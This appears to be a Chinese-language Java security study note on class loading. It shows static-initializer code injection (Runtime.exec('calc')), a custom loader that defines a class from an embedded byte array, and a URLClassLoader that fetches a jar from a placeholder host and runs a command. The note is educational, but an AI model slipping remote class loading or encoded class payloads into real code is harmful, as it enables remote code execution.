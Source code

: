 # ClassLoader(类加载机制)

## ClassLoader(类加载机制)

Java程序在运行前需要先编译成`class文件`，Java类初始化的时候会调用`java.lang.ClassLoader`加载类字节码，`ClassLoader`会调用JVM的native方法（`defineClass0/1/2`）来定义一个`java.lang.Class`实例。

## 类加载器简介

**启动类加载器(Bootstrap ClassLoader):**

　　　　这个类加载器负责将\lib目录下的类库加载到虚拟机内存中,用来加载java的核心库,此类加载器并不继承于java.lang.ClassLoader,不能被java程序直接调用,代码是使用C++编写的.是虚拟机自身的一部分.

**扩展类加载器(Extendsion ClassLoader):**

这个类加载器负责加载\lib\ext目录下的类库,用来加载java的扩展库,开发者可以直接使用这个类加载器.

**应用程序类加载器(Application ClassLoader):**

　　　　这个类加载器负责加载用户类路径(CLASSPATH)下的类库,一般我们编写的java类都是由这个类加载器加载,这个类加载器是CLassLoader中的getSystemClassLoader()方法的返回值,所以也称为系统类加载器.一般情况下这就是系统默认的类加载器.



　　除此之外,我们还可以加入自己定义的类加载器,以满足特殊的需求,需要继承java.lang.ClassLoader类.

　　类加载器之间的层次关系如下图:

![](img/1.webp)

## ClassLoader

所有的Java类都必须经过JVM加载后才能运行，`ClassLoader`的主要作用就是Java类文件的加载。在JVM类加载器中最顶层的是`Bootstrap ClassLoader（引导类加载器）`、`Extension ClassLoader（扩展类加载器）`、`App ClassLoader（系统类加载器）`，`AppClassLoader`是默认的类加载器，如果类加载时我们不指定类加载器的情况下，默认会使用`AppClassLoader`加载类，`ClassLoader.getSystemClassLoader()`返回的系统类加载器也是`AppClassLoader`。

某些时候我们获取一个类的类加载器时候可能会返回一个`null`值，如:`java.io.File.class.getClassLoader()`将返回一个`null`对象，因为`java.io.File`类在JVM初始化的时候会被`Bootstrap ClassLoader（引导类加载器）`加载（该类加载器实现于JVM层，采用C++编写），我们在尝试获取被`Bootstrap ClassLoader`类加载器所加载的类的`ClassLoader`时候都会返回`null`

## 类加载器的核心方法

1. `loadClass`（加载指定的Java类）
2. `findClass`（查找指定的Java类）
3. `findLoadedClass`（查找JVM已经加载过的类）
4. `defineClass`（定义一个Java类）
5. `resolveClass`（链接指定的Java类）



## Java类动态加载方式

Java类加载方式分为`显式`和`隐式`,`显式`即我们通常使用`Java反射`或者`ClassLoader`来动态加载一个类对象，而`隐式`指的是`类名.方法名()`或`new`类实例。`显式`类加载方式也可以理解为类动态加载，我们可以自定义类加载器去加载任意的类。

```java
Class.forName(className)
// 等于
Class.forName(className, true, currentLoader)
```

比较重要的是`Class.forName("类名")`默认会初始化被加载类的静态属性和方法，因此可以注入恶意代码

```Java
public class Test {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

而`ClassLoader.loadClass`默认不会初始化类方法

```Java
public class MyTest {
    public  void abc() throws ClassNotFoundException {
        this.getClass().getClassLoader().loadClass("evil.Test");
    }
    public static void main(String[] args) throws Exception{
//        Class.forName("evil.Test");
        MyTest myTest = new MyTest();
        myTest.abc();

    }
}

```

## ClassLoader类加载流程

结合看看双亲委派更好https://github.com/Stakcery/JavaSec/blob/main/1.%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/%E7%B1%BB%E5%8A%A0%E8%BD%BD%E5%99%A8%E4%B8%8E%E5%8F%8C%E4%BA%B2%E5%A7%94%E6%B4%BE%E6%A8%A1%E5%9E%8B/%E7%B1%BB%E5%8A%A0%E8%BD%BD%E5%99%A8%E4%B8%8E%E5%8F%8C%E4%BA%B2%E5%A7%94%E6%B4%BE%E6%A8%A1%E5%9E%8B.md



## 自定义ClassLoader

这里我写了一个弹出计算器的

```Java
package evil;

import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.NotFoundException;

import java.io.IOException;
import java.lang.reflect.Method;

public class MyClassLoader extends ClassLoader {
    public static String className = "evil.Testt";
    public  byte[] classBytes = new byte[]{-54,-2,-70,-66,0,0,0,51,0,56,10,0,11,0,30,10,0,31,0,32,8,0,33,10,0,31,0,34,7,0,35,10,0,5,0,36,9,0,37,0,38,8,0,39,10,0,40,0,41,7,0,42,7,0,43,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,18,76,111,99,97,108,86,97,114,105,97,98,108,101,84,97,98,108,101,1,0,4,116,104,105,115,1,0,12,76,101,118,105,108,47,84,101,115,116,116,59,1,0,4,67,97,108,99,1,0,1,101,1,0,21,76,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,59,1,0,13,83,116,97,99,107,77,97,112,84,97,98,108,101,7,0,35,1,0,4,109,97,105,110,1,0,22,40,91,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,86,1,0,4,97,114,103,115,1,0,19,91,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,10,84,101,115,116,116,46,106,97,118,97,12,0,12,0,13,7,0,44,12,0,45,0,46,1,0,4,99,97,108,99,12,0,47,0,48,1,0,19,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,12,0,49,0,13,7,0,50,12,0,51,0,52,1,0,3,49,50,51,7,0,53,12,0,54,0,55,1,0,10,101,118,105,108,47,84,101,115,116,116,1,0,16,106,97,118,97,47,108,97,110,103,47,79,98,106,101,99,116,1,0,17,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,1,0,10,103,101,116,82,117,110,116,105,109,101,1,0,21,40,41,76,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,59,1,0,4,101,120,101,99,1,0,39,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,80,114,111,99,101,115,115,59,1,0,15,112,114,105,110,116,83,116,97,99,107,84,114,97,99,101,1,0,16,106,97,118,97,47,108,97,110,103,47,83,121,115,116,101,109,1,0,3,111,117,116,1,0,21,76,106,97,118,97,47,105,111,47,80,114,105,110,116,83,116,114,101,97,109,59,1,0,19,106,97,118,97,47,105,111,47,80,114,105,110,116,83,116,114,101,97,109,1,0,7,112,114,105,110,116,108,110,1,0,21,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,86,0,33,0,10,0,11,0,0,0,0,0,3,0,1,0,12,0,13,0,1,0,14,0,0,0,47,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,2,0,15,0,0,0,6,0,1,0,0,0,5,0,16,0,0,0,12,0,1,0,0,0,5,0,17,0,18,0,0,0,1,0,19,0,13,0,1,0,14,0,0,0,107,0,2,0,2,0,0,0,18,-72,0,2,18,3,-74,0,4,87,-89,0,8,76,43,-74,0,6,-79,0,1,0,0,0,9,0,12,0,5,0,3,0,15,0,0,0,22,0,5,0,0,0,8,0,9,0,11,0,12,0,9,0,13,0,10,0,17,0,12,0,16,0,0,0,22,0,2,0,13,0,4,0,20,0,21,0,1,0,0,0,18,0,17,0,18,0,0,0,22,0,0,0,7,0,2,76,7,0,23,4,0,9,0,24,0,25,0,1,0,14,0,0,0,55,0,2,0,1,0,0,0,9,-78,0,7,18,8,-74,0,9,-79,0,0,0,2,0,15,0,0,0,10,0,2,0,0,0,15,0,8,0,16,0,16,0,0,0,12,0,1,0,0,0,9,0,26,0,27,0,0,0,1,0,28,0,0,0,2,0,29};





    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        System.out.println(name);
        if (name.equals(className)) {
            return defineClass(className, classBytes, 0, classBytes.length);
        }
        return super.findClass(name);
    }

    public static void main(String[] args) throws Exception {

        MyClassLoader myClassLoader = new MyClassLoader();
        Class aClass = myClassLoader.loadClass(className);
        Object obj = aClass.newInstance();
        Method calc = obj.getClass().getMethod("Calc");
        calc.invoke(obj,null);
    }


}

```

## URLClassLoader

### Linux下打包jar

命令

```cmd
jar cvfm 1.jar ./META-INF/MAINFEST.MF *.class
```

创建META-INF/MAINFEST.MF，内容为，最后记得空格

```xml
Manifest-Version: 1.0

```

exp目录下写类，并编译javac exp.java

```java
package exp;
import java.io.IOException;

public class Test {
    public static Process exec(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }

    public static void main(String[] args) {
        System.out.println("1333");
    }
}

```

### 一个示例

```java
package evil;



import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.net.URL;
import java.net.URLClassLoader;

public class MyURLClassloader {
    public static void main(String[] args) throws Exception{
        URL url = new URL("http://xxxx/33.jar");
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
        Class test = urlClassLoader.loadClass("Test");
        Process process = (Process) test.getMethod("exec", String.class).invoke(null, "dir");
        BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        String line=null;
        StringBuffer br=new StringBuffer();
        while ((line=bufferedReader.readLine())!=null) {
            br.append(line+"\n");
        }
        System.out.println(br.toString());

    }
}

```



## 参考文章

https://blog.csdn.net/briblue/article/details/54973413

https://www.jianshu.com/p/554c138ca0f5

